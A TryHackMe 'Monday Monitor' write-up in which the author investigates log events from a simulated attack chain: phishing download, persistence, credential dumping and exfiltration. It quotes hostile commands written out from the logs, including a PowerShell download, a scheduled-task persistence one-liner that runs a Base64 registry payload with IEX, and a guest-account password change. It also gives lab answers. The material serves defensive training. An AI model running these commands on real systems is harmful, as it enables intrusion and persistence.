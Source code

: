 # TryHackMe Room: Monday Monitor

In this room, I analyzed malicious activity using the **Monday Monitor** platform. The tasks focused on finding suspicious commands, scheduled tasks, credential dumping, and data exfiltration.

Credentials to log in:
Username: admin
Password: Mond*yM0nit0r7

---

## 1. Initial access was established using a downloaded file. What is the file name saved on the host?
From the dashboard, I navigated to **Policy Monitoring → Monday Monitor**, set the timeframe to **April 29, 2024 12:00 PM – 8:00 PM**, then filtered events by **Microsoft Office** and looked at those containing a `command line`.  

I found the following command:
"powershell.exe" & {$url = 'http://localhost/SwiftSpend_Financial_Expenses.xlsm
' Invoke-WebRequest -Uri $url -OutFile $env:TEMP\PhishingAttachment.xlsm}

This shows a malicious PowerShell download:  
- It pulls a file (`SwiftSpend_Financial_Expenses.xlsm`) from `localhost`.  
- Saves it locally as `PhishingAttachment.xlsm`.  

[Screenshot 01: Suspicious PowerShell download](./screenshots/01-powershell-download.png)

---

## 2. What is the full command run to create a scheduled task?
Digging deeper into suspicious events, I found one with `schtasks.exe`, which creates a scheduled task.  
Looking at its **parentCommandLine**, I saw:

"cmd.exe" /c "reg add HKCU\SOFTWARE\ATOMIC-T1053.005 /v test /t REG_SZ /d cGluZyB3d3cueW91YXJldnVsbmVyYWJsZS50aG0= /f & schtasks.exe /Create /F /TN "ATOMIC-T1053.005" /TR "cmd /c start /min "" powershell.exe -Command IEX([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String((Get-ItemProperty -Path HKCU:\SOFTWARE\ATOMIC-T1053.005).test)))" /sc daily /st 12:34"

What this means:
- A registry value (`test`) is created under `HKCU\SOFTWARE\ATOMIC-T1053.005`.  
- The value stores a Base64 string.  
- A scheduled task named `ATOMIC-T1053.005` is created.  
- When triggered, it decodes the Base64 string and executes it via PowerShell.  

[Screenshot 02: Scheduled task creation](./screenshots/02-schtasks.png)  

---

## 3. What time is the scheduled task meant to run?
At the very end of the command above we see:  
/sc daily /st 12:34
So the task was scheduled for **12:34 daily**.

---

## 4. What was encoded?
The Base64 string in the registry command was:
cGluZyB3d3cueW91YXJldnVsbmVyYWJsZS50aG0=
Decoding it (using CyberChef → *From Base64*) gave the result.  

[Screenshot 03: Decoded Base64 result](./screenshots/03-decoded.png)

---

## 5. What password was set for the new user account?
A few events later, I found the following suspicious command:
net user guest I_AM_M0NIT0R1NG
This indicates the password of the **Guest** account was set to `I_AM_M0NIT0R1NG`.  

[Screenshot 04: Guest password change](./screenshots/04-guest.png)

---

## 6. What is the name of the .exe that was used to dump credentials?
Going back to the **Dashboard**, I selected *Possible Office Macro Started* and reapplied filters.  
Among the events, I saw two tools attempting **Pass-the-Hash (PTH)** attacks:  
- `mimikatz.exe`  
- `memotech.exe`  

The correct answer was `memotech.exe`.  

[Screenshot 05: Credential dumping tool](./screenshots/05-cred-dump.png)

---

## 7. Data was exfiltrated from the host. What was the flag that was part of the data?
After clearing filters except `manager-name`, I scrolled through events until I found a long PowerShell command containing a `$content` variable that held the exfiltrated flag.  

[Screenshot 06: Flag exfiltration command](./screenshots/06-flag.png)

---

## Summary
In this room I practiced:
- Detecting **malicious PowerShell downloads**.  
- Investigating **scheduled task persistence** and decoding Base64 payloads.  
- Tracking account modifications (password changes).  
- Identifying **credential dumping tools** used in Pass-the-Hash.  
- Detecting **data exfiltration** and recovering the stolen flag.  

This scenario demonstrated a realistic attacker chain: phishing → persistence → credential access → exfiltration.
